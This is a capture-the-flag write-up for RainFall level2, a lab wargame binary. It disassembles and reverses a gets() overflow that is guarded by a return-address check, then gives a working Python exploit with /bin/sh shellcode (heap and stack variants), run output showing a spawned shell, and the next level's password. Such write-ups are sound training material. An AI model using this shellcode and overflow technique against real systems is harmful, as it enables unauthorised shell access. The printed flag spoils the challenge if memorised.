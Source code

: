 ## Program type:
* Running the command `file ./level2` we see the file is 32-bit ELF
executable.
```
level2@RainFall:~$ file ./level2
./level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```
* Running the command `checksec --file ./level2, we see that the stack is
executable (NX disabled).
```
level2@RainFall:~$ checksec --file ./level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level2
```
## Content:
```
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave
 804853e:	c3                   	ret

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave
 804854b:	c3                   	ret
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
* There's two function [`main`, `p`], `main` calls `p` and return.

* `p` use `fflush(3)` to clear the stdout and then fills a buffer with size 
56 bytes (Again, `gets(3)` is vulnerable because it doesn't have a stopping 
condition other than '\0').

* An if condition is used to check if the return address of the `main` 
function starts with `0xb`, this could be considered as a way to check if the
`saved-eip` of the `p` function was overwritten using `gets(3)` with something 
else other than the address that was meant to be there (the return address 
pushed on the stack from the function `main`).

* If the `saved-eip` is changed, it `printf(1)` the changed address and calls 
`exit(3)`. Otherwise, it `puts(3)` the content of the buffer and duplicate it 
with `strdup(3)` (for no particulare reason), which means the heap now 
contains the content of the buffer.
## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

void	p(void)
{
	int		some_useless_variable;
	void	*return_addr; // Big chance the type of this variable is uint64_t and the previous variable does not exist
	char	buffer[56];
	
	fflush(stdin);
	gets(buffer);

	// 0 makes the function return the return_address of the current function.
	return_addr = __builtin_return_address(0);
	if (return_addr & 0xb0000000 != 0xb0000000)
	{
		printf("(%p)\n", return_addr);
		exit(1);
	}
	puts(buffer);
	strdup(buffer);
}

int	main()
{
	p();
	return (0);
}

```
## Solution:
* There's two ways to exploit this binary, both of'em are buffer overflows:
	* `strdup(3)` duplicates the buffer on the heap, the buffer contains a 
	shellcode that spawns a shell when it's executed and a address of the 
	duplicate in the heap that overwrite the saved-eip. Since the address of 
	the heap don't start with `0xb` we pass the mask validation and when the ret 
	instruction executes our shellcode.

	* Meanwhile, a normal stack buffer overflow won't work directly because of 
	the mask validation, so we'll push two addresses on the stack and calling 
	the return instruction twice, so when the mask validation occures, it will 
	find a correct address (not starting with `0xb`) and the second address will 
	jump to a memory area in the stack where our shellcode lies.

* Now lets write the python script that will enable us to access the shell using that vulnerability:
```python
import sys
import struct

shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"

def heapExp():
    tail = "\x00" * (80 - len(shellcode))
    new_eip = struct.pack('I', 0x0804a008)
    print shellcode + tail + new_eip

def stackExp():
    head = "\x90" * 80
    tail = "\x90" * 100
    gadget_addr = struct.pack('I', 0x0804853e)
    slide_addr = struct.pack('I', 0xbffff751)
    print head + gadget_addr + slide_addr + tail + shellcode

if __name__ == "__main__":
    if len(sys.argv) > 1:
        if sys.argv[1] == "stack":
            stackExp()
        if sys.argv[1] == "heap":
            heapExp()
```
* Running the exploit give us access to an unauthorized shell:
```
level2@RainFall:~$ (python exp.py heap; cat -) | ./level2
�^�1��F�F
         �
          ���V
               ̀1ۉ�@̀�����/bin/sh
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ (python exp.py stack; cat -) | ./level2
����������������������������������������������������������������>������������>Q��������������������������������������������������������������������������������������������������������^�1��F�F
                                                                        �
                                                                         ���V
                                                                              ̀1ۉ�@̀�����/bin/sh
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```